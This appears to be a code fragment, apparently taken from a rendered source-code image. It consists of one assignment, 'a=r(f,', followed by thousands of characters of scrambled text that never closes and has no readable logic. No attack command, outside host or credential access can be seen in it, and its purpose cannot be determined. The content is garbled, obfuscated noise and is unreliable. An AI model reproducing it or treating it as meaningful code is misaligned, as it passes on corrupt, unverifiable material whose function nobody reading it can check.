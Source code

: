 a=r(f,"-CNvIfYTO,kt!p4*tOC,kIvrtpfIpIYZ4!TYN,4CY!*OTtUfkNpkO4IT!q_,kONck!vO!NTTvYk*v,pTYNptTOtNYiCY,TNYtv*kkOfv4kTYtfIk!!fO4IY4Nv4Nft4fOv_4OtpNY*4,T!RmO!COkNfvC?OppYOkIvt!mf,tC!kOvIt4TtN*tCITp>f*,YIkivT!!ffkp!YO*IT4vp4OYttNYIC!ktNt!N*,,JC;,!NOtNYpCTkONpTNNk!*fp4vTCCvIYp6f!4OTI^zY!OT4IvC!fIOpIY<4kkpffp4TCkkYOC&,fp,Y4*jT!sO,NII*kTtz,,pN,tvII!,:pk4NIt)v!!YTTv}tTIT!tCN!9TY*T,fNNfkC,ttItp*YN4vONU,,OpCYT4OTI5DOkICpfvN4ITvR,OkCTkONp,CNkkOvI!+Ik&Ok*Iw!OIt,YI4*vOCMtknNNtp*fOY?!,ONIk4YNC,kfvI!C*,O!CK,!NOtNY*CptN4Y,kfv!!Cfk!N!tOII!4OZv,!fI,!*Ck!OOCVp,CCTYC*ITOhI,.Ck4ITT*I,NN,,fIkTpCC,IN+k!vY*v,vNTtO*YkkYvp!NfpIv!!OfIp4k3v*!Tf44tNk4OOvCtkkNTt,IvOkC4!OOv=OO,CtkpvOtT?Np!Y,kYTf3v,YNtk4N*!!%*,CNYkOvI!%IkWOkTIC!,fv,YIk/vT!!fY!p!YO*IT4vt4*TO*YOvC!,tvI!C*kt!If,4fp*4OTN_k!N*tOfCOkvk*TTv0Y,,pCYT4OTIX#OkIC**T*t4TYCtkvvf!*It,CNYkOvI!sIkq!t*vI!pYC,YIkevT!!ffkp!YO*IT4IC4kYt*TON!kT4vTt2*,O,CP,!NOtNYtCCk,vITC8tOOCIkcNk4k,fNNf4vv!knN4NY!4TTY/T,OCpYC*fTOjI,ZCkp9ONCC,4NkkT*N,5=,,*NGk!vO!NTTvYtkINpCfT44I!*tO!!,TY4zY!*OONvk4pTTufIN*Y,tN,tp*4,Nv!*TT!*pO*NCk!NtTYfMppCkpYTf!pTTNfkIvT!YIt,tCp!IvI!jI!pYOtIf!CIt4YYTk4YkLTkNC*YkNY!tYO*IYTsfv4*k,*v!!Ov*pOftp*N,t!IH!!fO4NkdIv4NCY!kOv*!Ifpkf!4OTI*4!ff**,OY87,,Ntt)vNT,Nv,aC!kOvN*!,vNkk4Itp_Sk,4IO&vOOS,,tNptOvTONf!4,NY4NOCp,OvvCt+IvpNfTkTN,!pIq!!fO4N,vI!pvYv4TN44lO*C,kYv4ttfI4CCkp,Ttct,*NNkvIN!,fO,CNfkOvI!jIkHYt*I!!vf!t4TT*Pv,!,fwp!YO*NtHI*4TYttCIN!OfI4#p*Y!*YT,KkO*tfIO!!fO4IY4NN!*f!4vOv.Y,kpCY,4OTI&yOkIp*ITtS4O**4ttv4t*COkNN4k,Iv!;I!pOYNNfpNYv4NYTk4Yp<t,4NvkpIkpCYu,,N4t8v!!OfNCftvvtpOff4YI!*T,I!pYC4ITF*!OYv!*ITv**IY*ktvN!TfeOO!COkIN4*v,kCkkvINt*f,,CNYkOvI!?IkqNt*IN!vf!,YIkGvT!!ff,p!YO*IT4IC44YT^Iv4*NktNIYp),OIC5,!NYpt,<X*,!vNtT*4t,YY*YTT+TO*N!kvv!TfNYO!COkIN44IfkNOtYIv!vCY4TTCkkT4CT,XpkY4COpvfOp,Yt*pOO&TfNN!t,*YtNfCk,fv1COZCvkNNTTT*,,!C{,!NOtNYYCv,tNkt4fTOkI,4tT!;pIY(Ikvv4!OItpEY**kTtdp,OpfY,4!TO&IO4v*44Tk44O*C!ktv4TpCt,INMk!vY*v,vNNYkC,!tYN*vNYpfOYJtkYvYtvI!OYNI,pvCtIIM!!fYDT!YIY!*YO!kOv*!Ifp,f!4OTI*44NY,*,OYC&,vNIk,4pkDPI,#C!kYYYCI,pNIktvfpNRktTTT_NO,!YOO*vYk*4kOYv4OY,*tOpCO,T4Nt!I,OYIN4Cv,4v,CCnkvvNtTPTO,NvkLN!tOINy,kYv,TpffO4Y444TTt4TpNYttWpT,Cf,1C!kOvN4!kvNIttIYpCf*,YIt*!O X*kANTt4vtOCNN,ONItmvk4p,TvIY4C4!tfv4kY*PO,fCYkvvYTNvN4vf,*CTpGOIfp4f!4OTI*4!pYC!pf,U&kl*4OYCIk4f,!kIOk,IC!^I!pOYNNf!kIt4YNNp<TtCkkYNkk*I,OvwpkYNItdv!!YOpNT!CI4!OYC*vTO*kIN*4k!vfTCApOOCIkeNk4Y,tCfk,IvTYNIpkY,4,TpCCIk*4tTvET,Ck,{C!kOvN4v,!NvtvvTT4vp4kYvd{Op!YOfNTtTIt!4I*44TfDIvppvfI42Y!*Ytkv*4TT*LvOt!4ONvttI*p,NCIk&N!tYTkNCtwNtTYNt4CIT4tvC!fIOpIYs4ktIIt4IN4kkf4CT,wp,TT*ET!/O,NffzvO!C!,tvIk**YpYfYp*NYppOTCYkNNT!w*,O*Ch,!NOtNT(CvtC4YkTI4!4fT*YTvt,Itpyf!4OTNNft!Ck!4YT4}I,ptY;4!TOwN!IYT*kvY*OY)p,TO*{T!gO,NYY*vOTCfkqNCtYvTp,54!*TI*t,I#*kOvfk*IYOfC,,!NOtIv44*,4vf!NfNOkIv4TNp!YIIpxf!4Y,tffp4CkptO2VTkxCttIICttfN,CNIkOvI!DIk=!ttvvT4fN4tYIkpfN!IfBp!YYN,pNfvp*YktNYYC*,O4NkY*kO4II4vYp<fO*CvkONktvINp,C*kCvCtOIIpSpuI,pYY!*CC,tOvdt!IOpNO!Iv!Ift4YTC**vY*f,YC*tIvv!!fvppYv*!Op!ffkp!YO*IT4v=4*YT;ROf!kT4vTt_*,,CCU,!NOtNTf8*kfvt!Iv*OkI,*YY*zOOkpCYT4OTI9VOkIN4TO!QvIk8YktvvtpIt,CNIkOvI!RIk9ktOvTpCfv4IYTkpfN!If.p!YYNv!vfN,kI,*t,NNvfYmftYvtpYYY4vT!tYfI!4OpN,!IITpkYkkCvttOIIpZfkC,t4N*4TIC4tTk0kO*CtYNCY!*IO,CN!kOvI!AIk**t4vT!Cf*4kYv01vk*,,fv+tvIYpYKpkkNIt9v!!YOvvC!NI,pOff*TYpeNOT!4OTNT!tIY!*YvkCvTtOIIp+fkE!ttITpCY,*IvN4Y,*COYC.OTOJI,DCk*!TOCkO*Npt,vTpNfvpkv!tpI,p4YT*COv84,,NmkpvT!YfTp*Y,*IYpLvOIC5,!NY4N,f!4,INttT*4tNYt4INppvIIpPf!4YkNvTtCIfp*vN4aTY{fOfC,kpPYtIf**4Okg4,vNCtOICpvfOpkTfkpIN!Ifap!YYCTpYfYp*TOtNYYC*,O4COp*OOIC%,kYC**O4Ckk,vpTNNYp*fOkNvY4<,tN1kCvv!ffb!*Ck*IOCt4OpCtk4Iv!YIT4INTk,v!!RI!pOYNNk!NffptTIjNIt!ffOp!YO*IT4IOptTYtNYYC*,O4COY*OOICH,kItJIOtCt,*4Y,fIY!tYv*NTTn,,INff4Cpt*I*4vYY4TOYrp,!pfTy4!TOVIO4IC*,OvdIO*N4YYN,t*f!4OYt*pO!C,fC4*YO*IOSyktpYTJIv4*!,TNftv*kt,ft4tT*sNOvNNk,vOTCCkOOCIk_Nk4YYkdff4CN!tIIO4NN!!OT8!OpC*tCv!tt1Y4wYpkkT,/T,kN*tNvvpPCv,fN,k!vO!II4G4O*Nktf14!Cfftvvp!*fI4GY!f4*vONnCO,CTkO!pYY4ITD*!OYI,*YOS**OtNYtO4kkpIv4KCktOvC!kIOpIYq4k,pI4pvYT*!Op_vkgC*YYCkpvI!,fNkk!vO!II4CC!vII!tYY,kI4iTO6!,Y^4wY!*OONIIp*Yp*,,CCpkO4Y,kfv!!Cf!ZN!tOII!4,YN*!IfCp!Ck!4OT#yIkp4OOIv!OI,ptYp*OTT!N,!N,YYvf!vfY4tY44*O!!*fC4YYO*IO>Jkt!TNxC,YNvfYnk!vv!Ofvv,!NOtIv4QOtvNptvf9!4ftkNYI!!IYpkOIv*!IIfpTY,*ITvt4,ONfYNC4tpCft*Yp4!T*#4,v4vYf}NT!:O,IC4pCTtCOfNC0ktv,!T24!pY***OkutkkvC!y*,kYCs,!NOtNTfC4,*NttY*4tNYt4IN4!NY!NTk!Npt*fCp!ftkYOAqpIkLYkf*pkTffpIYT*YTt!tIp4(YI*WT!VYtkYteCTpCfkINNY,*4O.&!,ONNp!T*CvkNNI!Av*!Tfp,pvItII5!!fYCI!Cfvppf*4,TTtkY4NTk:4,Of0bO!COkNYN8v,4pY,fvT!Tftp4f**4OfCII4*vT**COk/O,INrkkY!ut,vNktT*YtII*4TTY*vOfb*ff*4Y!*OOI#4!vON*tOfNvk4NT!I*4,Nv!*TT!*pO*NCk!NtTYvNpCN,pvOC8D,vNNkT*TT,Qt,7C!kOvN*I,TvqkTv4pC#,kCNXk!vO!NT4CCtOvk!tvI*vYttNYYC*,O4CTY*OOICL,kI*A4,NCkk,vk,OITpOCfkfN!tOII!4OTvOt*fYOpN!kIvDt!IYPpkTvktpffp*YvkkOkCCI4*!tNICpYI!4tTI*fv,4>fKp!YO*NpIf;*NYTFf,C<*kkNttNCI,fNCtYv*!tfv4oY4*4OkCC,kNktTIN!tIf4ff!4OTI*4tCft*vTTCaOtpY,YvppCIt4IC4!4TtyO,vNOt,vTTpCT,INik!vY4Tk1NTtTvtONIIptTI*,,v:tkONYYpCNOIC^,!NY4v,CCpkOC,tTIC!,I,*YO_zv,IC,tCCNt*IYpNf**IfvCN,4NOYC*fTORI,8Ck4ITtP4,NpkO4IT!+e,tkN)k!vO!NT*vvtYIk!tf44YYttN,C(pkONtt4I4p,CN4IT,/OIN*4Tp*f,*Ip!!f*44TvtkOTCYkNN*tkhvOpvIkIvit!IYNOkIIYttf,4fYv*4T*1YYO4,TfMtO4Nmk4vT!TI4pTYf*VOJ0t,tNC,,NptZv!!OfNCftCI!!*YN*NNk!OICpffO4ITd*ktpft*YONrv,IC,tC4,TkqqO!COkNfTCIOtCkkT4pOm2I,/C!kYYIrvkvpkO4IT!G=,kYN1k!vO!NONNvt4*YtffT4TTt*4T*C4kfvIY4Cv,*fY,pvItIIe!!fY}!t4v*pTftk,OCtkY4NTkq4,OI=MO!COkNfv?!,vNvkT44kpI*p*Tv*YTTCY,pN!YfXNT!&O,IC4pCO,CYktp4O4v*pffC4,TO*Yv4*Y,*vet,*,,OC^,!NOtNYICv,*4Ykfff!tYO4*N44pO*C*tvvYtTfYppY!kfvpt!IOpIf4NC!TIT4fYYkkYkRk,TNOkpIfTp+4,INBk!vY4TT49p,OCtOCCT,ONItjvk*p,TvOtvCppfY^4ITv*pICpOfO4ITH*kk!YN*COYtkY!NItvvv!kffOpN,kIvot!IY/,kkvptpfC4,f*XZTt!NOiCtk,vt!!fC,fN!k!vO!II4cNt*II!,fv4,TItNTX*OTp4CTv*OOICH,kfTFf,CC!fkC4TCuYOOCIk3Nk46,NCvtMN*TYNk4vf!kfv*t!IOpIf4NC!4ftpYC4pIOtF*,4pk,fvI!FYv,fNkk!vO!II4